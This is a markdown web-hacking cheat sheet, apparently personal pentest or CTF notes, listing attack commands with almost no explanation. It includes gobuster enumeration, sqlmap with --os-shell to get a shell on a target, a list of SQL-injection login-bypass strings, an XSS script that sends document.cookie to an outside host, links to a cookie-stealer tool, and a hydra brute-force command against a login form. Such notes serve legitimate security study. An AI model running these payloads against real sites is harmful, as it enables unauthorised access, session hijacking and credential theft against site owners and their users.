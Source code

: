 # Web Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

## Enumeration

### Directory Scan Using Gobuster

`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/name of list -u http://targetURL`

### cURL

#### GET Request

`curl http://targetURL`

#### POST Request

`curl -X POST --data randomdata http://targetURL`

<!--
##################################################################
##################################################################
-->

## SQLI

### Test for SQLI with SQLMAP Using Cookie

`sqlmap -u 'http://website.address?field=to-test' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`

### Use SQLMAP to Get Shell

`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=802vjt3crnju4eg3ib0q04ge9v" --os-shell`

### Bypass Authentication with SQL Injection

`' or 1=1 --`

`a' or 1=1 --`

`" or 1=1 --`

`a" or 1=1 --`

`' or 1=1 #`

`" or 1=1 #`

`or 1=1 --`

`' or 'x'='x`

`" or "x"="x`

`') or ('x'='x`

`") or ("x"="x`

<!--
##################################################################
##################################################################
-->

## XSS

### Test for XSS

`Hello!<script>alert("Welcome");</script>`

### XSS Cookie Hijacking

_Start XSS-cookie-stealer.py \*\*\*https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py_

_\*\*https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md_

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.30.10.210:8888/?"+document.cookie;
</script>
```

<!--
##################################################################
##################################################################
-->

## [SQLite](https://www.sqlitetutorial.net/sqlite-commands/)

### Access Database

`sqlite3 databasename.db`

### Show Tables

`.tables`

### Show Table Info

`PRAGMA table_info(tablename);`
`.schema tablename`

### Dump Info From Table

`SELECT * FROM customers;`
`.dump tablename`

<!--
##################################################################
##################################################################
-->

## Useful Commands

### Brute Force Web Login

`hydra -L /home/n0m4d1k/usernames -P /usr/share/wordlists/rockyou.txt -t 16 172.30.73.80 http-post-form "/login.php:username=^USER^&password=^PASS^&action=Login:Incorrect username or password"`
